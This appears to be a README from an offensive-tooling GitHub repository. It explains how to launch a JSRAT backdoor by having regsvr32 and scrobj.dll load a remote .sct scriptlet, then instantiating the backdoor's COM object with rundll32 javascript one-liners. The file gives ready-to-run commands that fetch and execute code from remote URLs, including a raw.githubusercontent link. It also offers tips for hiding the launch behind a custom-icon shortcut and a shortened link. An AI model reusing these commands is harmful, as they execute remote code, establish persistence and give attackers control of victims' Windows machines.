 Another way of JSRAT on SCTPersistence.
---

Thanks to Casey Smith@subTee

https://github.com/subTee/SCTPersistence


His Way:


1.On host, execute regsvr32.exe /u /n /s /i:http://server/Backdoor.sct scrobj.dll


-The default is to use the path to a local file


-rewrite the regkey


-the Class definition comes form the interwebs http://server/c2.js


2.c2.js


-javascript payload


-.sct format


3.call the COM Object


-cmd


`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Component.Backdoor");x.Main();`


or


-js


`var x = new ActiveXObject("Component.Backdoor");
x.Main();
var x = new ActiveXObject("Component.Backdoor");
x.Exec();`


My Way:


1.On host, execute regsvr32.exe /u /n /s /i:http://server/Backdoor.sct scrobj.dll


-The default is to use the path to a local file


-Connect to the JSRAT server


2.call the COM Object


-cmd


`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Empire");x.Exec();`


-js


`var ref = new ActiveXObject("JSRAT");
ref.Exec();`




---
###Usage:

1.(local)


`regsvr32.exe /u /n /s /i:Backdoor.sct scrobj.dll`


or (remote)


`regsvr32.exe /u /n /s /i:http://example/Backdoor.sct scrobj.dll`


2.run BackdoorTest.js to start JSRAT



---
---

##ShortJSRAT
You can run the following code to start JSRAT:


`regsvr32 /s /n /u /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/ShortJSRAT.sct scrobj.dll`

###Why create this:

Limit command length to 260 characters.


When we create a Windows shortcut with personnalized icon to start JSRAT,the code of JSRAT is longer than 260charaters.


But we can use regsvr32.exe to run .sct file with very few letters.


What's more, the third-party link shortener Twitter can save more space.








